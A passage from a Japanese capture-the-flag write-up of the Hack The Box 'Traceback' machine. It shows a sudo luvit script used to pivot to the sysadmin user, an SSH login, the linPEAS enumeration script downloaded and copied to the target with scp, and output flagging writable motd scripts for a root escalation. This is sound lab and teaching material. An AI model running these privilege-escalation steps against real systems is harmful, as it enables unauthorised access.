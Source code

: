 ```txt
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

これで `sysadmin` に `ssh` 出来るようになって `user.txt` が取れました！

```txt
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:47:10 2020 from 10.10.14.11
$ bash
sysadmin@traceback:~$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

### root login

まず [`linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) を流します。

クライアントマシンでダウンロード、 scp でターゲットマシンに送りつけます。
ターゲットマシンで `curl` or `wget` が使えれば楽なのですが、 名前解決で失敗していたのでこうしています。

```txt
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
chmod u+x linpeas.sh
scp -i ~/.ssh/traceback linpeas.sh sysadmin@10.10.10.181:/home/sysadmin/linpeas.sh
```

実行すると以下の辺りが黄色くなっています。

```txt
sysadmin@traceback:~$ ./linpeas.sh

... 省略 ...

[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/dev/mqueue/linpeas.txt

... 省略 ...
```
